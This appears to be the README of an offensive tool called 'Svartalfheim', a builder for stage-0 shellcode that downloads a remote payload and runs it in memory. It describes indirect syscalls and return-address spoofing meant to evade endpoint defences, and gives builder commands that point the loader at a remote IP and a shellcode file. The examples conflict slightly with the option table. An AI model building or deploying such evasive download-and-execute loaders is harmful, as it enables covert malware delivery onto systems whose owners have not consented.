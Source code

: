 # Svartalfheim

Stage 0 Shellcode to Download a Remote Payload and Execute it in Memory

The Nt API calls ```NtAllocateVirtualMemory``` and ```NtProtectVirtualMemory``` are made using indirect syscalls.

```LoadLibraryA``` and WinHTTP calls are performed with return address spoofing.

# Usage

<table>
  <thead>
    <tr>
      <th>Option</th>
      <th>Description</th>
      <th>Required</th>
      <th>Default Value</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>-e</td>
      <td>Http endpoint</td>
      <td>Yes</td>
      <td></td>
    </tr>
    <tr>
      <td>-u</td>
      <td>Http uri</td>
      <td>Yes</td>
      <td></td>
    </tr>
    <tr>
      <td>-p</td>
      <td>Http port</td>
      <td>Yes</td>
      <td></td>
    </tr>
    <tr>
      <td>-a</td>
      <td>User agent</td>
      <td>No</td>
      <td>Mozilla/5.0 (Windows NT 10.0; Win64; x64)</td>
    </tr>
    <tr>
      <td>-s</td>
      <td>Use TLS</td>
      <td>No</td>
      <td>Empty</td>
    </tr>
  </tbody>
</table>

Example :
- python3 builder.py -u 10.10.100.121 -u /path/to/shellcode.bin -p 80
- python3 builder.py -u 10.10.100.121 -u /path/to/shellcode.bin -p 443 -s

# Credit

- https://github.com/kyleavery/AceLdr
- https://github.com/realoriginal/titanldr-ng
- https://www.unknowncheats.me/forum/anti-cheat-bypass/268039-x64-return-address-spoofing-source-explanation.html
- https://github.com/trickster0/TartarusGate
